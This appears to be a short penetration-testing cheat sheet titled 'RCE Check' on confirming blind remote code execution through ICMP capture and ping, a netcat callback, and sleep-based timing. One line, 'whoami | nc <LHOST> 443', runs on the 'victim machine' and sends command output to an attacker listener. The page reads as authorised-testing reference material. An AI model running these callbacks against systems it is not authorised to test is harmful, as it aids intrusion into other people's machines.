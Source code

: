# RCE Check

{% tabs %}
{% tab title="ICMP check" %}
```bash
# tcpdump
tcpdump -i tun0 icmp # We can also test by disabling DNS resolution with -n
tcpdump ip proto \\icmp -i tun0
# tshark
tshark -i tun0 -Y "icmp" 2>/dev/null
```

```bash
ping -c 1 <LHOST> # Linux
ping <LHOST> # Windows
```
{% endtab %}

{% tab title="NC check" %}
```bash
nc -nvlp 443 # In our machine.
whoami | nc <LHOST> 443 # On the victim machine, to send the result.
```
{% endtab %}

{% tab title="Time check" %}
```bash
sleep 5 # Linux
timeout 5 # Windows
```
{% endtab %}
{% endtabs %}
